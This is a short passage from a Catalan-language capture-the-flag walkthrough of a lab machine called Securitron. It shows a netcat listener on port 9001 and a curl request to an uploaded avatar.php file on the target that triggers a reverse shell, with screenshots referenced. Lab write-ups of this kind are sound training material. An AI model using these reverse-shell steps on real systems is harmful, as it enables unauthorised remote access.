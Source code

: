 ![URL revshell](../../../assets/images/securitron/image-23.png)

Ens posem a escoltar amb netcat...

```bash
nc -lvnp 9001
```

i carreguem la següent adreça amb curl o el navegador.

```bash
curl http://admin19-32.securitron.thl/uploadImage/Profile/avatar.php
```

![revshell](../../../assets/images/securitron/image-24.png)
